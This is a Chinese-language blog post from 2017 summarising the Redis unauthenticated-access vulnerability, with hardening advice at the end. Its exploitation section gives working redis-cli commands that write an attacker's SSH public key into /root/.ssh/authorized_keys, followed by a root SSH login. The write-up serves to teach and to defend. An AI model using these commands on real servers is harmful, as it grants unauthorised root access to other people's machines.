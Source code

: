 ```yaml
---
title: Redis 未授权访问漏洞利用总结
date: 2017-07-15
author: burlin
source_link: http://www.alloyteam.com/2017/07/12910/
---
```


# Redis 未授权访问漏洞利用总结

_Redis_ 是一个开源的使用 ANSI C 语言编写、支持网络、可基于内存亦可持久化的日志型、Key-Value 数据库，并提供多种语言的 API。

![](http://www.alloyteam.com/wp-content/uploads/2017/07/屏幕快照-2017-07-15-下午5.32.54-1024x441.png)

## **一、**漏洞介绍

Redis 默认情况下，会绑定在 0.0.0.0:6379，这样将会将 Redis 服务暴露到公网上，如果在没有开启认证的情况下，可以导致任意用户在可以访问目标服务器的情况下未授权访问 Redis 以及读取 Redis 的数据。攻击者在未授权访问 Redis 的情况下可以利用 Redis 的相关方法，可以成功在 Redis 服务器上写入公钥，进而可以使用对应私钥直接登录目标服务器。

### **漏洞描述**

部分 Redis 绑定在 0.0.0.0:6379，并且没有开启认证（这是 Redis 的默认配置），如果没有进行采用相关的策略，比如添加防火墙规则避免其他非信任来源 ip 访问等，将会导致 Redis 服务直接暴露在公网上，导致其他用户可以直接在非授权情况下直接访问 Redis 服务并进行相关操作。

利用 Redis 自身的提供的 config 命令，可以进行写文件操作，攻击者可以成功将自己的公钥写入目标服务器的 /root/.ssh 文件夹的 authotrized_keys 文件中，进而可以直接使用对应的私钥登录目标服务器。

![](http://www.alloyteam.com/wp-content/uploads/2017/07/屏幕快照-2017-07-15-下午5.33.41.png)

## 二、漏洞利用

首先在本地生产公私钥文件：

     
    $ ssh-keygen –t rsa
     

然后将公钥写入 foo.txt 文件

     
    $ (echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n") > foo.txt
     

连接 Redis 写入文件

     
    $ cat foo.txt | redis-cli -h 192.168.1.11 -x set crackit
    $ redis-cli -h 192.168.1.11
    $ 192.168.1.11:6379> config set dir /root/.ssh/
    OK
    $ 192.168.1.11:6379> config get dir
    1) "dir"
    2) "/root/.ssh"
    $ 192.168.1.11:6379> config set dbfilename "authorized_keys"
    OK
    $ 192.168.1.11:6379> save
    OK
     

这里讲解下，这里设定了 crackit 的键值为公钥，并通过 redis 命令变更 Redis DB 文件及存放地点为默认 root 用户 SSH key 存放文件，并将键值重定向追加到远程文件 authorized_keys 的末尾，也就上传了公钥。

这样就可以成功的将自己的公钥写入 /root/.ssh 文件夹的 authotrized_keys 文件里，然后攻击者直接执行：

```ruby
 
$ ssh –i  id_rsa root@192.168.1.11
 
```

可远程利用自己的私钥登录该服务器。

刚刚我们提到公钥登录和 Redis 持久化存放数据操作，这里简单讲下原理

## 详细讲解 ssh 登录 -- 公钥登录

SSH 提供了公钥登录，可以省去输入密码的步骤。

所谓 "公钥登录"，原理很简单，就是用户将自己的公钥储存在远程主机上。登录的时候，远程主机会向用户发送一段随机字符串，用户用自己的私钥加密后，再发回来。远程主机用事先储存的公钥进行解密，如果成功，就证明用户是可信的，直接允许登录 shell，不再要求密码。

这种方法要求用户必须提供自己的公钥。如果没有现成的，可以直接用 ssh-keygen 生成一个：

     
    $ ssh-keygen
     

运行上面的命令以后，系统会出现一系列提示，可以一路回车。其中有一个问题是，要不要对私钥设置口令（passphrase），如果担心私钥的安全，这里可以设置一个。

运行结束以后，在 $HOME/.ssh/ 目录下，会新生成两个文件：id_rsa.pub 和 id_rsa。前者是你的公钥，后者是你的私钥。

通常这时再输入下面的命令，将公钥传送到远程主机 host 上面：

```ruby
 
$ ssh-copy-id user@host
 
```

authorized_keys 文件，远程主机将用户的公钥，保存在登录后的用户主目录的 $HOME/.ssh/authorized_keys 文件中。公钥就是一段字符串，只要把它追加在 authorized_keys 文件的末尾就行了。

## 详细相关的 Redis 持久化命令

Redis 支持 2 种持久化策略：snapshot 方式和 commandlog 方式，前者通过将当前内存数据快照周期性写入 RDB 文件来实现；后者通过在 log 中记录 Redis 进程收到的写操作来实现，下次 Redis 重启时，回放 commandlog 来恢复数据状态。  
这里使用 RDB 文件写入 SSH key 文件，需要设置以下两个 **RDB 相关配置**

dbfilename

指定 RDB 文件名，默认为 dump.rdb

dir

指定 RDB 文件存放目录的路径，若包含多级路径，则相关父路径需事先 mkdir 出来，否则启动失败。

set (key, value)：给数据库中名称为 key 的 string 赋予值 value

最后 Client 使用 save 命令通知 redis 做一次快照持久化

## 修复建议 / 安全建议

#### 1. 禁止一些高危命令

修改 redis.conf 文件，添加

     
    rename-command FLUSHALL ""
    rename-command CONFIG   ""
    rename-command EVAL     ""
     

来禁用远程修改 DB 文件地址

#### 2. 以低权限运行 Redis 服务

为 Redis 服务创建单独的用户和家目录，并且配置禁止登陆

     
    $ groupadd -r redis && useradd -r -g redis redis
     

#### 3. 为 Redis 添加密码验证

修改 redis.conf 文件，添加

     
    requirepass mypassword
     

#### 4. 禁止外网访问 Redis

修改 redis.conf 文件，添加或修改，使得 Redis 服务只在当前主机可用

     
    bind 127.0.0.1
     

#### 5. 保证 authorized_keys 文件的安全

为了保证安全，您应该阻止其他用户添加新的公钥。

将 `authorized_keys` 的权限设置为对拥有者只读，其他用户没有任何权限：

     
    $ chmod 400 ~/.ssh/authorized_keys
     

为保证 `authorized_keys` 的权限不会被改掉，您还需要设置该文件的 immutable 位权限：

     
    # chattr +i ~/.ssh/authorized_keys
     

然而，用户还可以重命名 `~/.ssh`，然后新建新的 `~/.ssh` 目录和 `authorized_keys` 文件。要避免这种情况，需要设置 `~./ssh` 的 immutable 位权限：

     
    # chattr +i ~/.ssh
     

**注意:** 如果需要添加新的公钥，需要移除 `authorized_keys` 的 immutable 位权限。然后，添加好新的公钥之后，按照上述步骤重新加上 immutable 位权限。